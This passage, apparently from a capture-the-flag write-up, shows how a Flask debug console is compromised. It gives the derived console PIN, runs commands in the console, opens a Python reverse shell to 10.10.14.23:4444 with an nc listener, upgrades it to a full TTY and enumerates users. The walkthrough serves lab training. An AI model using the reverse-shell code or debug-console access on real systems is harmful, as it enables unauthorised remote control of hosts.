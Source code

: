 When executed, this give th PIN code that is validated by the application:

```text
124-661-574
('www-data', 'flask.app', 'wsgi_app', '/app/venv/lib/python3.10/site-packages/flask/app.py', '345052407874', 'ed5b159560f54721827644bc9b220d00superpass.service')
```

We can now access the console and access the target host :

![](assets/console_exec.png)

```python
__import__('os').popen('whoami').read();
'www-data'
```

We can now open a reverse shell :

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.23",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/usr/bin/bash","-i"]);
```

```shell
nc -nvlp 4444
```

We can upgrade the shell to a full TTY shell:

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

Let's enumerate that host 

```shell
ls /home
```

```text
corum
dev_admin
edwards
```


```shell
uname -a
```
